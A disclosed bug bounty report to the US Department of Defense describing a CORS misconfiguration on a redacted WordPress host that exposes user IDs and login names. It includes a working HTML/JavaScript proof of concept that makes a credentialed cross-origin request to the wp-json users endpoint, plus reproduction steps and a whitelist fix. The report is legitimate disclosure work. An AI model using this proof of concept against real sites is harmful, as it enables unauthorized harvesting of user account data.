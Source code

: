 # Bypassing CORS Misconfiguration Leads to Sensitive Exposure at https://███/

## Report Details
- **Report ID**: 1092125
- **URL**: https://hackerone.com/reports/1092125
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-01T14:20:44.811Z
- **Disclosed**: 2022-04-07T19:53:34.859Z

## Reporter
- **Username**: whoisbinit
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
It's possible to get information about the users registered (such as: id, name, login name, etc.) without authentication in WordPress via API on https://██████████/.

**Description:**
There exists a cross-origin resource sharing (CORS) misconfiguration vulnerability at https://█████/, allowing anyone from any third-party domain to perform two-way interaction with this domain. Generally, CORS policy is used to determine whether the content in a website can interact with another specific website or not and whether the another specific website can directly fetch the content from the original website or not.

CORS policy is implemented in web applications, by whitelisting/allowing company's other assets to fetch dynamic resource from the specific asset, and not allowing the rest of the third-party domains to access or fetch the content. However, the situation is different in case of this vulnerable domain, allowing anyone to fetch the resource.

## Step-by-step Reproduction Instructions
Step 1. Visit https://████/wp-json/, and you will see that it displays user IDs, names, login usernames, etc. without requiring any form of authentication;
Step 2. Now, it is time to craft a Proof-of-Concept exploit for the CORS misconfiguration vulnerability using JavaScript. For this purpose, you may use the following piece of code:

```html
<html>
<body>
<center>
<button onclick="exploitCORS()">Fetch from the target!</button>
<hr size=1 width="80%">
<textarea id="fetchedResource" rows="10" cols="50" style="width:75%" placeholder="Click on the button to fetch resource!"></textarea>
</center>

<script>
function exploitCORS(){
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://████████/wp-json/wp/v2/users/',true);
    req.withCredentials = true;
    req.send();
}

function reqListener(){
    document.getElementById("fetchedResource").value = this.responseText;
}
</script>

</body>
</html>
```

Copy this piece of code, and place in a file with **.html** extension, and visit the file in your web browser!

Step 3. When you are viewing the exploit file in your browser, click on the button available there, and then it will fetch the resource from the target vulnerable website.

## Product, Version, and Configuration (If applicable)
- https://██████████/

## Suggested Mitigation/Remediation Actions
To fix this vulnerability, you can use a whitelist of trusted domains rather than defining a wildcard or programmatically verifying the supplied origins.

## Impact

By taking an advantage of this vulnerability, an attacker would be able to fetch contents from the vulnerable domain despite being in a third-party domain, not in the asset of the vulnerable domain. The contents that the attacker can fetch include the WordPress user IDs, usernames, and other information.

Despite the wp-json API endpoint being a public information by default, there exists CORS misconfiguration in this website, that allows any website to fetch resources from this particular vulnerable domain.

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Visit https://█████████/wp-json/wp/v2/users/
2. Use the exploit PoC code mentioned earlier!

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
